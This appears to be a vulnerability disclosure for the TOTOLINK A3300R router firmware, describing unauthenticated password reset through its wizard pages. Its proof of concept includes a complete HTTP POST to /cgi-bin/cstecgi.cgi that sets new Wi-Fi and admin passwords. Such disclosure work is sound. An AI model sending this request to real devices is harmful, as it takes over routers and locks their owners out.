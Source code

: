 # TOTOLINK A3300R V17.0.0cu.557_B20221024 Incorrect Access Control



## Product Information

Product: TOTOLINK A3300R

Firmware Version: V17.0.0cu.557_B20221024 

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html 



![](images/0.png)



## Attack Type

remote



## Description

TOTOLINK A3300R V17.0.0cu.557_B20221024 is vulnerable to Incorrect Access Control. Attackers are able to reset serveral critical passwords without authentication by visiting specific pages.



### POC

1. Visit /wizard.html or /phone/wizard.html directly

2. ``` 
   POST /cgi-bin/cstecgi.cgi HTTP/1.1
   Host: 127.0.0.1
   Content-Length: 465
   sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
   Accept: application/json, text/javascript, */*; q=0.01
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   X-Requested-With: XMLHttpRequest
   sec-ch-ua-mobile: ?0
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
   sec-ch-ua-platform: "Windows"
   Origin: http://127.0.0.1
   Sec-Fetch-Site: same-origin
   Sec-Fetch-Mode: cors
   Sec-Fetch-Dest: empty
   Referer: http://127.0.0.1/wizard.html
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Connection: close
   
   {"dhcpMtu":"1500","proto":"1","dnsMode":"0","clone":"1","cloneMac":"12:00:01:12:30:00","iptvEnabled":"0","iptvVer":"5","wanStrategy":"1","vlanEnabled":"0","ssid":"SiWiFi-0420-2.4G","key":"EvilPassword_1","wpaMode":"1","wifiOff":"0","hssid":"0","merge":"0","ssid5g":"SiWiFi-0424","key5g":"EvilPassword_2","wpaMode5g":"1","wifiOff5g":"0","hssid5g":"0","tz":"UTC+0","loginpass":"EvilPasswd_3","step_index":"5","wizard":"1","switchOpMode":"1","topicurl":"setWizardCfg"}
   ```



## Analyse

The home page that shows original passwords.

![1](images/1.png)

Visit /wizard.html directly

![2](images/2.png)

Reset the passwords & Submit

![3](images/3.png)

![4](images/4.png)

![5](images/5.png)

![6](images/6.png)

/phone/wizard.html can work in a similar way

![12](images/12.png)

![13](images/13.png)

![14](images/14.png)

![15](images/15.png)

![16](images/16.png)

Send the Request package: "200 OK"

![17](images/17.png)

Check the result

![7](images/7.png)

Login password can also be changed at another page regularly when entering the correct original one. 

So after the steps above, the victim can only change the password by the one changed by the Attacker.

![8](images/8.png)

![9](images/9.png)

![10](images/10.png)

![11](images/11.png)